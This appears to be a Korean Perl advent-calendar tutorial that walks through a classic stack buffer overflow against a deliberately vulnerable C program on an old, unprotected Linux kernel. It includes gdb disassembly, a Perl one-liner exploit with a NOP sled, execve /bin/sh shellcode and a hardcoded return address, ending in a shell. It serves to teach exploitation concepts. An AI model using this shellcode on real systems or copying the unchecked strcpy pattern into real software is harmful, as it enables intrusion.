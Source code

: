 Title:    익스플로잇과 펄
Package:  Seoul.pm
Category: perl
Category: Seoul.pm
Author:   h00ray

저자
@h00ray - 시험기간에 공부 안하고 프로그래밍 하는 잉여잉여한 학생

시작하며
--------
2014년 들어서 리눅스 환경에서 굵직한 취약점이 발표되고있습니다.

예를들면 
bash shell shock
open ssl heart bleed 
etc...

물론 이번 달력에서 다룰 내용은 위에 나열한 취약점과는 거리가있습니다만...
그래도 단지 재미를 위해 그리고 리눅스 환경에서의 해킹을 조금이라도 맛 보기(?)위해 메모리 버그의 일종인 bof(BufferOverflow) 즉 버퍼오버플로우라는 기술을 이용해서 리눅스 해킹을 해보도록하겠습니다.

예제

우선 공격할 리눅스 정보입니다.

$uname -a
Linux localhost.localdomain 2.2.14-5.0 #1 Tue Mar 7 21:07:39 EST 2000 i686 unknown

버전이 매우 낮다는걸 알수있는데 사실 일부로 낮은 버전을 선택했습니다.
현재 최신 리눅스 커널은 해커들의 공격을 막기위해 많은 보호기법을 도입하고있는데 
그 예로는 
공격프로그램(exploit)이 스택이나 힙에서 실행되지 않도록하는 Nx-bit
메모리상의 공격을 방어하기위해 스택 주소를 랜덤하게 바꾸는 ASLR
상위주소를 \x00 값으로시작하게하는 즉 NULL처리를 시켜서 공격이 불가능하도록 하는 Ascii-armor
buffer와 return address에 사이의 임의의 값이 변하면 프로그램을 종료시켜버리는 Canary
Canary에 대해 더 설명을 하자면 해킹에 성공하기위해서는 eip를 제어해야하는데 eip를 제어할려면 return address를 덮어 씌어야합니다.
하지만 canary라는 보호기법이 return address를 모니터링하면서 값이 변하면 프로그램을 종료시켜 버리기때문에 한번에 공격할수있는 확률이 줄어들고 난이도도 올라가게됩니다.
 

이처럼 다양한 보호기법이 적용되면서 공격이 힘들지만 우회하는 방법이있습니다.
ROP(Return Oriented Programming)라는 공격기법입니다. 
이런 무지막지한 보호기법을 우회하려다 보니 매우 복잡하고 어렵다보니 이 달력에서는 설명하지않겠습니다.
rop에 관한 자세한 내용은 아래 링크를 참조해주세요.
http://teamcrak.tistory.com/332

그럼 지금부터 메모리 보호기법이 적용되어있지않은 리눅스 커널을 대상으로 간단한 해킹을 해보도록 하겠습니다.

공격할 프로그램입니다.
//vuln.c
//gcc -o vuln vuln.c
#include <stdio.h>

int main(int argc, char *argv[])
{
    char buffer[256];
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}

해킹에 성공하기 위해서는 "프로그램 구조를 개발자보다 잘 알아야 한다"라는 말이 있을정도로 
프로그램의 구조를 완벽하게 이해하고 있어야합니다.
그렇다면 이제 분석을 하기위해 gdb를 실행 해봅시다.
$gdb vuln 

(gdb) disass main
Dump of assembler code for function main:
0x80483f8 <main>:	push   %ebp
0x80483f9 <main+1>:	mov    %esp,%ebp
0x80483fb <main+3>:	sub    $0x100,%esp
0x8048401 <main+9>:	mov    0xc(%ebp),%eax
0x8048404 <main+12>:	add    $0x4,%eax
0x8048407 <main+15>:	mov    (%eax),%edx
0x8048409 <main+17>:	push   %edx
0x804840a <main+18>:	lea    0xffffff00(%ebp),%eax
0x8048410 <main+24>:	push   %eax
0x8048411 <main+25>:	call   0x8048340 <strcpy>
0x8048416 <main+30>:	add    $0x8,%esp
0x8048419 <main+33>:	lea    0xffffff00(%ebp),%eax
0x804841f <main+39>:	push   %eax
0x8048420 <main+40>:	push   $0x8048480
0x8048425 <main+45>:	call   0x8048330 <printf>
0x804842a <main+50>:	add    $0x8,%esp
0x804842d <main+53>:	leave  
0x804842e <main+54>:	ret    
0x804842f <main+55>:	nop    
End of assembler dump.

대충 봐도 현기증을 유발하는 디어셈블된 코드이지만 우리가 봐야 할 부분은 strcpy함수를 call하는부분 입니다.
0x8048411 <main+25>:	call   0x8048340 <strcpy> 여기만 주의 깊게 봐주면 됩니다!!!!

그렇다면 보기전에 간단하게 우선 strcpy함수를 알아봅시다.
strcpy(buffer, argv[1]);
argv[1]의 값을 buffer에 복사합니다.
네 끝이에요 한 마디로 
eax에는 buffer의 값 256byte
edx에는 argv[1]의 값이 들어가있습니다.

어셈블리 코드를 보면 edx(argv[1]) 값을 push 그후 eax(buffer)를 스택에push
strcpy(%eax,%edx); 이런식으로 들어가있는겁니다.
근데 과연 생각한게 맞는지 초호화 디버깅툴인 gdb를 사용해서 확인해보도록 하겠습니다.
디버깅을 할때 항상 그랬던 것 처럼 break point를 걸어줍니다.

(gdb) b *main+25
(gdb) r 1
Starting program: /home/vuln 1

Breakpoint 1, 0x8048411 in main ()
(gdb) x/s $edx
0xbffffca0:	 "1"

main+25에 break point를 걸었고 그후 인자를 1을 주고 실행해본결과 edx에는 역시 예상했던데로 1이라는 값이 들어가있습니다.
이제 0xffffff00이 뭘 뜻하는건지 알아야겠습니다. 16진수이므로 사람이 알아볼수있게 10진수로 바꾸면 256byte라는 값이나오네요.
256byte를 buffer가 사용하고있으니 256byte +4는 ret주소입니다.

$./vuln `perl -e 'print"A"x260'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)

perl 스크립트를 사용해서 공격해봤습니다..(펄 달력인데 이제서야 펄이나오네요..ㅜㅜ)
공격 해보니 역시 ret값을 덮어쓰니 오류를 출력하면서 프로그램이 종료되네요.
자 이제 exploit script만 작성해주면 끝입니다.


$./vuln `perl -e 'print "\x90"x125 , "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80","\x90"x110,"\x38\xf9\xff\xbf"'`
1?h//shh/bin??°
                ?8
bash$
네 공격에 성공했습니다 ;)
이제 exploit을 살펴보자면 "\x90"은 nop입니다. 그냥 아무것도 안하고 다음 명령어로 넘어갑니다.
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" 이 부분은 쉘코드입니다. 간단하게 shell을 출력해주는 기계어 집합입니다.
"\x38\xf9\xff\xbf" 이 부분은 스택의 값인데요. gdb를 통해서 본 스택 주소를 넣어주었습니다.

마치면서
크리스마스 펄 달력이라는 내용과 맞게 펄에대한 팁이나 재미있는 내용을 주제로 선정했어야하는데... 평소에 해킹을 펄로 하다보니 글을 쓸수있는 주제가 한정되어 많이 아쉽네요.
그래도 이렇게 기회를 주신 여러 관계자분들께 감사하다는 인사를 보내면서 즐겁게 모두 한 해를 마무리하셨으면 좋겠습니다.
아 그리고 읽어주셔서 감사합니다!!
